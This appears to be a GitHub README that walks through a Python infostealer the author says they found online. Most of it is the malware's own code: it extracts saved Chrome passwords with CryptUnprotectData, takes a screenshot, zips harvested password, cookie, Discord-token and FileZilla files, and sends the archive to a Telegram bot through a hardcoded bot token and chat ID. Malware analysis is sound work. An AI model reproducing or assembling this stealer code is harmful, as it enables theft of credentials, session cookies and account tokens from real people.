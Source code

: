# Dark_-tealer-V1.0-
While browsing the interent I found this unmarked python file packed away into a seperate folder trying to hides itself as a trojan. I looked into it and found exactly what it was aiming to do. The code is aiming to grab the users disocrd token and save it to the folder. The main executable likely sent the working discord tokens, cookies, and screenshots back to the owner of the malware. I found this all incredibly interesting so I decided to publish it all for you to see. It also seems to be posting to telegram as far as I can tell from the token included.

## Analysis
```python
username = os.getlogin()
token = '756172703:AAHyXD5Tii9J-JBl98-mAGGJxeTKKvSJG2s'
bot = telebot.TeleBot(token)
```
This code snippet is the malwares form of communicating VIA telegram after its scraped all of your data. Whats so nasty about this though is how much data it scrapes.
```python
def Chrome():
    text = 'Stealer coded by Dark $ide\n\n\nPasswords Chrome:' + '\n'
    text += 'URL | LOGIN | PASSWORD' + '\n'
    if os.path.exists(os.getenv("LOCALAPPDATA") + '\\Google\\Chrome\\User Data\\Default\\Login Data'):
        shutil.copy2(os.getenv("LOCALAPPDATA") + '\\Google\\Chrome\\User Data\\Default\\Login Data', os.getenv("LOCALAPPDATA") + '\\Google\\Chrome\\User Data\\Default\\Login Data2')
        
        conn = sqlite3.connect(os.getenv("LOCALAPPDATA") + '\\Google\\Chrome\\User Data\\Default\\Login Data2')
        cursor = conn.cursor()
        cursor.execute('SELECT action_url, username_value, password_value FROM logins')
        for result in cursor.fetchall():
            password = win32crypt.CryptUnprotectData(result[2])[1].decode()
            login = result[1]
            url = result[0]
            if password != '':
                text += url + ' | ' + login + ' | ' + password + '\n'
    return text
file = open(os.getenv("APPDATA") + '\\google_pass.txt', "w+")
file.write(str(Chrome()) + '\n')
file.close()
```
The following code as show above is it goes through all of the biggest browsers and grabs every shred of data it can for your discord account and stores it in a text file. It proceeds to do that for the following websites: Chrome, Yandex, Firefox, Chromium, Amigo, Opera, and even Firezilla. It proceeds to also save the cookies and discord token to a text file. For all of those browsers.
```python
screen = ImageGrab.grab()
screen.save(os.getenv("APPDATA") + '\\sreenshot.jpg')
```
Here is the scaries two lines of code in this malware sample. The malware itself takes a photo of your screen and saves it to the data anyalsis. 
```python
zname=r'D:\LOG.zip' 
newzip=zipfile.ZipFile(zname,'w') 
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\google_pass.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\google_cookies.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\yandex_cookies.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\chromium.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\chromium_cookies.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\amigo_pass.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\amigo_cookies.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\opera_pass.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\opera_cookies.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\discord_token.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\filezilla.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\sreenshot.jpg')
newzip.close() 

doc = 'D:\LOG.zip'

bot.send_document(439184350, doc)
```
This final snippet of code just tells it to grab everything its just got and to zip and send the file over via telegram. 
## TOS
I did not create this, in fact I dont know who created it. I merely found it while treasure hunting on the internet. Please do use this responsibly and don't abuse. This is all meant for educational purposes and if you use this you are breaking the law. Please keep this in mind feel free to email me.


